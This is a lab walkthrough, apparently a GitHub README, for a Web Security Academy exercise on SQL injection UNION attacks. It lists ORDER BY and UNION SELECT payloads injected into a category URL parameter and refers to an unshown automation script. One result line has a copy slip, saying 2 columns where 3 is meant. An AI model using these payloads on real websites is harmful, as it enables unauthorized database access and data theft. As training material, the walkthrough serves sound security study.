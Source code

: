 # SQL Injection Lab 08 - SQL injection UNION attack, finding a column containing text

## Manual Solution

### 1. Access the lab in Web Security Academy
### 2. Determine the number of columns for UNION attack
   - Test: `/filter?category=Gifts' ORDER BY 1--`
   - Result: No error (at least 1 column exists)
   - Test: `/filter?category=Gifts' ORDER BY 2--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 3--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 4--`
   - Result: Error (confirms 3 columns)

### 3. Append injection to the URL:
   - Test: `/filter?category=Gifts' UNION SELECT '1','2','3'--`
   - Result: You'll see the which column compatible with the string data in the response.

### 4. Append the string data requested from us:
   - Test: `/filter?category=Gifts' UNION SELECT '1','[YOUR_STRING_DATA]','3'--`
   - Result: Congratulations, you solved the lab!

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command: python sqli_lab_08.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)

